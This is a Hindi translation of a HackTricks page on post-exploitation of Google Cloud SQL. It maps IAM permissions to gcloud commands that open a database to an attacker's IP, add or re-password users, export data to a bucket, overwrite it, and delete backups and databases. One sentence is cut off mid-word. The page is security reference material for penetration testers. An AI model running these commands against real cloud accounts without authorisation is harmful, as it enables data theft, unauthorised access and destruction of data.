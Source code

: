 # GCP - क्लाउड SQL पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## क्लाउड SQL

क्लाउड SQL के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

डेटाबेस से कनेक्ट करने के लिए आपको **बस डेटाबेस पोर्ट तक पहुंचने की आवश्यकता है** और **उपयोगकर्ता नाम** और **पासवर्ड** पता होना चाहिए, कोई IAM आवश्यकताएं नहीं हैं। इसलिए, एक आसान तरीका तक पहुंचने के लिए, मानते हैं कि डेटाबेस का एक सार्वजनिक IP पता है, तो अनुमत नेटवर्क को अपडेट करें और **अपने खुद के IP पते को एक्सेस करने की अनुमति दें**।
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
डेटाबेस की **बैकअप्स को विघटित** करने के लिए **`--no-backup`** का उपयोग भी संभव है।

क्योंकि ये आवश्यकताएं हैं, मैं पूरी तरह से निश्चित नहीं हूं कि **`cloudsql.instances.connect`** और **`cloudsql.instances.login`** के अनुमतियाँ क्या हैं। अगर आप इसे जानते हैं तो PR भेजें!

### `cloudsql.users.list`

डेटाबेस के **सभी उपयोगकर्ताओं की सूची** प्राप्त करें:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

यह अनुमति डेटाबेस के अंदर **नए उपयोगकर्ता बनाने** की अनुमति देती है:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

यह अनुमति डेटाबेस के भीतर उपयोगकर्ता को **अपड
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

बैकअप में **पुरानी संवेदनशील जानकारी** हो सकती है, इसलिए उन्हें जांचना दिलचस्प हो सकता है।\
**डेटाबेस में एक बैकअप को पुनर्स्थापित** करें:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
### `cloudsql.backupRuns.delete`

इस अनुमति से बैकअप को हटाया जा सकता है:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**डेटाबेस को निर्यात करें** ताकि आप उसे वहां से एक्सेस कर सकें:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**डेटाबेस इम्पोर्ट** (ओवरराइट) एक क्लाउड स्टोरेज बकेट से:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

डेटाबेस को डेटाबेस इंस्टेंस से हटाएं:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

